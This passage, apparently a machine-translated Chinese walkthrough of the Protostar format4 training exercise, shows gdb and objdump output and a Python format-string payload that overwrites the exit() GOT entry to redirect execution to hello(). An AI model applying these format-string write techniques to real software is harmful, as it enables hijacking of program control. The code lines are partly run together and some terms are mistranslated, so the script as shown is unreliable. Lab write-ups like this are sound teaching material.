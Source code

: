 ```
  0x8049724 <_GLOBAL_OFFSET_TABLE_+36>: **0x080483f2**
**(gdb) continue**
  Continuing.
  $� Breakpoint 2, 0x0804850f in vuln () at format4/format4.c:22
  22 in format4/format4.c
**(gdb) x 0x8049724                  <-- Examine the current GOT entry**
  0x8049724 <_GLOBAL_OFFSET_TABLE_+36>: **0x00000004**
```

太好了。如您所见，从`0x080483f2`到`0x00000004`的有效载荷已经覆盖了 GOT 地址的条目。现在，我们只需要找到`hello()`函数的地址，并更新我们的漏洞，用它来正确地覆盖 get 入口点。

## 正在查找“hello()”的地址

```
**$ objdump -t /opt/protostar/bin/format4 |grep hello**
**080484b4** g     F .text 0000001e              hello
```

找到的`hello()`功能的地址是`0x080484b4`。

## 最终利用(2 字节短写)

由此看来，这个漏洞应该与我们在`Format3`练习[和](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-format-3-33e8d8f1e83)中所做的非常相似。由于用宽度字段控制`%n`很简单，我们可以使用任何技术。也就是说，我们将用 2 字节的短写方法来解决这个问题。

为了进一步澄清，让我快速解释一下这将如何进行:

```
**1) Our overwriting point:** 
  0x08049724 (Entry of the exit() GOT)**2) Desired value that we want to overwrite with:**
  0x080484b4 (hello())**3) 2-byte Short Write points:
(gdb) x 0x8049724**
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>: **0x080483f2**
                                          ⬇
                    0x08           **04**             83             **f2**
              ------------------------------------------------------
              0x8049727      **0x8049726      0x8049725      0x8049724**
```

根据上面的表示，我们将利用地址:`**0x8049724**`和`**0x8049726**`。来得到我们想要的值。

让我们验证一下，我们是否可以在这些`**0x8049724**`和`**0x8049726**`地址上写入任意值:

```
**[exploit.py]**#!/usr/bin/pythonimport structhello = 0x080484b4
exit_plt = 0x8049724                      
exit_plt2 = 0x8049726exploit = ""
exploit+= struct.pack("I",exit_plt)
exploit+= struct.pack("I",exit_plt2)
exploit+= "%4$08n"
exploit+= "%5$08n"print exploit
```

一旦我们将上述漏洞保存到一个文件中，运行 gdb 来检查我们是否可以覆盖每个地址位置:
